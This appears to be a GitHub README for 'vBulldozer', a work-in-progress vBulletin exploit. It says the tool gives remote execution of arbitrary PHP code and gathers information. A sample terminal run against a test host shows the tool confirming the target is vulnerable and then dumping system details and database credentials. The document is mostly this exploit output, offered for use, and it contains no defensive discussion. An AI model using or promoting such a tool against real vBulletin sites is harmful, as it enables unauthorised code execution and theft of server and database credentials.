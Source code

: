 # vBulldozer
Very loud vBulletin exploit, WIP.

Currently gives you a way to execute arbritary PHP code, and does some info-gathering. Deliberately loud as heck. 

More features coming later, once I am done debugging some PHP stuff.

```
$ python vBulldozer.py https://vb.test.local/
{+} Checking https://vb.test.local/
{*} Target is vulnerable!
{+} Proceeding...
{+} Gathering some system information...
{>} PHP uname: Linux vb 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
{>} Current UID: 33
{>} Current Dir: /var/www/html
{+} Gathering database credentials...
{>} Database Host: localhost
{>} Database User: vb
{>} Database Pass: password123
$
```
